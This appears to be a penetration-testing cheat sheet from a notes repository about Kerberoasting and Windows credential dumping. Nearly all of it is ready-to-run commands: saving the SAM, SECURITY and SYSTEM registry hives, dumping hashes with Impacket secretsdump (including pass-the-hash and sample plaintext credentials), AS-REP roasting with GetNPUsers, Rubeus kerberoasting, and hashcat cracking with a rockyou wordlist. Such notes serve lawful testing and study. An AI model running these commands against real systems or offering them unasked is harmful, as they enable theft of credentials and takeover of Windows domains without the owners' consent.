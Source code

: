 # Kerberoasting

### Impacket

Get a copy of the SYSTEM, SECURITY and SAM hives and download them back to your local system.

```
C:> reg.exe save hklm\sam c:\windows\temp\sam.save
C:> reg.exe save hklm\security c:\windows\temp\security.save
C:> reg.exe save hklm\system c:\windows\temp\system.save

$ secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

impacket-secretsdump backup@spookysec.local # requires password for user
impacket-secretsdump Administrator@10.11.1.1 -hashes 'NTLM:NTLM'
impacket-secretsdump marvel/fcastle:Password1@192.168.183.137

impacket-GetNPUsers spookysec.local/ -usersfile usernames.txt -format hashcat # Requires "Does not require Pre-Authentication" be set
```

### Rubeus

```
.\Rubeus.exe kerberoast
hashcat -m 13100 -a 0 hash /usr/share/wordlists/rockyou.txt --force
```

#### Cracking passwords

```
hashcat -m 13100 --force <TGSs_file> /usr/share/wordlists/rockyou.txt
```
